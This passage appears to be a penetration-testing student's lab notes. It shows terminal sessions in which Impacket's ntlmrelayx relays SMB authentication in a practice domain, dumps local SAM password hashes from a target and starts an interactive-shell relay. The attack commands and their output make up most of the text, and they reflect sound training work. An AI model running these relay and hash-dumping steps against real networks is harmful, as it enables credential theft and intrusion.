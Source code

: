 An Event Occurs and SAM hashes are dumped from ntlmrelay.py

```
┌─(~/Documents/PEH)─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────(kali@kali:pts/3)─┐
└─(13:43:55)──> ntlmrelayx.py -tf targets.txt -smb2support                                                                                  ──(Wed,Jun26)─┘
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
[*] Protocol Client MSSQL loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Running in relay mode to hosts in targetfile
[*] Setting up SMB Server
[*] Setting up HTTP Server

[*] Servers started, waiting for connections
[*] SMBD-Thread-3: Received connection from 192.168.95.133, attacking target smb://192.168.95.134
[*] Authenticating against smb://192.168.95.134 as MARVEL\fcastle SUCCEED
[*] SMBD-Thread-5: Received connection from 192.168.95.133, attacking target smb://192.168.95.133
[-] Authenticating against smb://192.168.95.133 as MARVEL\fcastle FAILED
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x845409a07e64847bff25283ec162c54d
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:5d232066e107f4c2c61c223dc4a2e22e:::
peterparker:1002:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
[*] Done dumping SAM hashes for host: 192.168.95.134
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```

ntlmrelayx can create an interactive shell

```
┌─(~/Documents/PEH)─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────(kali@kali:pts/3)─┐
└─(13:49:16)──> ntlmrelayx.py -tf targets.txt -smb2support -i                                                                               ──(Wed,Jun26)─┘
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
[*] Protocol Client MSSQL loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client LDAP loaded..
```